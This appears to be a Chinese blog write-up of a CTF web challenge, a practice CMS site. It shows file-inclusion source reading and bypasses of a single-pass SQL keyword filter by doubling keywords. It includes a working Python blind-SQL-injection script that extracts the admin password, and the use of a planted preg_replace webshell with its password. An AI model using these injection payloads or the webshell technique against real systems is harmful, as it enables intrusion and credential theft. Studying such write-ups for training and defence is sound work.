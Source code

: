 ```yaml
---
title: "CG CTF Web 综合2 WriteUp"
date: 2022-07-20T16:08:22+08:00
draft: false
tags: ['php','ctf','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


题目很综合, 出的很好

看到答案后觉得当初如果往社工方面想的话, 会更简单...

<!--more-->

http://cms.nuptzj.cn/

![20220720161011](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161011.png)

留言板

常规性的右键查看源代码

![20220720161031](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161031.png)

一看就知道是文件包含

![20220720161056](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161056.png)

根据 sm.txt 以及直接访问网站得到的相关信息, 下载了网站的 PHP 源码, 但 config.php 无法读取

![20220720161214](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161214.png)

about.php

![20220720161238](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161238.png)

有一个过滤, 提示是敏感目录, 有一个 `loginxlcteam` 关键词

直接访问试试

![20220720161326](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161326.png)

后台登陆, 但源码肯定读不出来

很容易就可以猜出来管理员账户是 admin

但密码尝试了好几位都是长度不一致

![20220720161430](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161430.png)

可能有点 bug

可以尝试爆破, 但这个先放一边, 我们接着看源码

tips 说了 xss 与题目无关, 所以我们看一下 antiinjec.php

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

这里把关键字都过滤了, 而且过滤了 `' " + - =` 这些单个的字符和空格

可以看出来, 这里的"过滤"仅仅是过滤一次, 对于 `select` `union` 这种关键词可以以 `selselectect` `ununionion` 的形式进行绕过, 对于空格我们可以用 mysql 的行间注释 `/**/` 但对于单字符来说无法绕过

也就是说我们的注入语句中不可能出现 `' " =`

另外发现了 passencode.php

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function passencode($content){
//$pass=urlencode($content);
$array=str_split($content);
$pass="";
for($i=0;$i<count($array);$i++){
if($pass!=""){
$pass=$pass." ".(string)ord($array[$i]);
}else{
$pass=(string)ord($array[$i]);
}
}
return $pass;
}
?>
```

就是用 ASCII + 空格的形式编码管理员密码, 这个后面会用到, 现在先放一边

查看了好几个 SQL 操作的点, 基本都是下面这种

![20220720162010](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162010.png)

首先这种都是字符型的, 而且使用了 `mysql_real_escape_string()` 进行转义

也就是说在没有数据库启用宽字节 (如 gbk) 的情况下, 我们根本没有办法进行注入

但是 `mysql_real_escape_string()` 的转义对于整数型的注入是没有用的, 因为 `?id=123` 这种形式的注入根本就不需要闭合引号

所以我们现在的目标就很明确了: 找到一个整数型的注入点

经过仔细查找后, 在 so.php 有一处注入点

![20220720162323](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162323.png)

这里对 `User-Agent` 进行了验证, burp 直接改就行

![20220720162539](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162539.png)

下面就是正常的手工注入流程

我第一次用的是盲注, 甚至还写了个小脚本....(有点绕弯子)

后来发现 union 其实也可以, 不过需要先让前面的内容报错 (因为正常的内容占位了, 会导致 union 后面的内容无法显示出来)

```
soid=1/**/ooorrderrder/**/by/**/4 // true
soid=1/**/ooorrderrder/**/by/**/5 // false
```

order by 绕过有个小技巧, 就是构造 `ooorrderrder`, 因为 `order` 含有 `or`, 会过滤两次, 在 `o` 和 `r` 的中间再插入一次 `or` 就能绕过去了

或者直接 union select 挨个挨个试

![20220720162946](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162946.png)

顺便贴一下当时盲注写的脚本

```
#-*-coding:utf-8-*-

import requests
import binascii

def str_to_hexStr(string):
    str_bin = string.encode('utf-8')
    return binascii.hexlify(str_bin).decode('utf-8')


heads = {'User-Agent':'Xlcteam Browser'}

url = 'http://cms.nuptzj.cn/so.php'

dicts = '0123456789 qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_{}!@#$%^&*()+=-?'

password=''

for i in range(1,35):
    for p in dicts:
        pp = str_to_hexStr(p)
        ppp = '0x'+pp
        payloads = '1/**/aandnd/**/if(mid((selselectect/**/userppassass/**/frfromom/**/adadminmin/**/where/**/usernnameame/**/like/**/0x61646d696e),'+str(i)+',1)/**/like/**/'+ppp+',1,0)'
        datas = {'soid':payloads}
        res = requests.post(url,data=datas,headers=heads)
        if res.text.find('0xfxxker')!=-1:
            password += p
            print(password)
            break
```

其实前面已经知道了是 ASCII + 空格的编码形式, dicts 不用写的那么多, `1234567890 ` 就够用了

![20220720163757](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163757.png)

数据表结构前面的 sm.txt 已经给出来了

![20220720163028](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163028.png)

密文是 `102 117 99 107 114 117 110 116 117`

根据前面的 passencode.php 可以知道是 ASCII 编码, 解码得到 `fuckruntu`


登录

![20220720163124](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163124.png)

一句话木马在根目录 `xlcteam.php`

先用文件包含读一下内容

![20220720163228](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163228.png)

回调函数

看到 `|.*|e` 想到了正则表达式, 网上搜了一下发现 PHP 可以通过 `preg_replace()` 来执行命令

`array_walk()` 的作用就不说了

`http://cms.nuptzj.cn/xlcteam.php?www=preg_replace`

菜刀连接, 密码 wtf (好像现在 webshell 管理工具已经换了....)

![20220720163522](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163522.png)